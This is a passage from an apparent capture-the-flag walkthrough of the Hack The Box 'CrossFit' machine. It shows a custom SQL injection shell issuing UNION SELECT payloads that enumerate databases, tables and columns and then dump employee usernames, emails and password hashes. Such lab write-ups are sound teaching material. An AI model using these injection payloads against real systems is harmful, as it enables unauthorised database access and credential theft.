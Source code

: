 ```py


Read_SQLI().cmdloop()
```

With this we can now easily query the databases and also have a command history. First we look for all available databases.

```
$ python inject.py 
sm1l3z > union select null, group_concat(schema_name) from information_schema.schemata
information_schema,crossfit,employees
```

The `crossfit` db only contains the membership plans, which aren't of much use to us. However the `employees` database contains an `employees` table and a `password_reset` table.

```
sm1l3z > union select null, group_concat(table_name) from information_schema.tables where table_schema = 'crossfit'
membership_plans
sm1l3z > union select null, group_concat(table_name) from information_schema.tables where table_schema = 'employees'
employees,password_reset
```

After querying the column names from the `employees` table we can retrieve all email addresses and password hashes.

```
sm1l3z > union select null, group_concat(column_name) from information_schema.columns where table_name = 'employees'
id,username,password,email
```

```
sm1l3z >  union select null, group_concat(id,' || ', username, ' || ',password, ' || ',email, '\n') from employees.employees
1 || administrator || fff34363f4d15e958f0fb9a7c2e7cc550a5672321d54b5712cd6e4fa17cd2ac8 || david.palmer@crossfit.htb
,2 || wsmith || 06b4daca29092671e44ef8fad8ee38783b4294d9305853027d1b48029eac0683 || will.smith@crossfit.htb
,3 || mwilliams || fe46198cb29909e5dd9f61af986ca8d6b4b875337261bdaa5204f29582462a9c || maria.williams@crossfit.htb
,4 || jparker || 4de9923aba6554d148dbcd3369ff7c6e71841286e5106a69e250f779770b3648 || jack.parker@crossfit.htb
```

Doing the same for the `password_reset` table, we see that it is currently empty.

```
sm1l3z > union select null, group_concat(column_name) from information_schema.columns where table_name = 'password_reset'
email,token,expires
```

```
sm1l3z >  union select null, group_concat(email, ' || ', token , ' || ', expires, '\n') from employees.password_reset
null
```
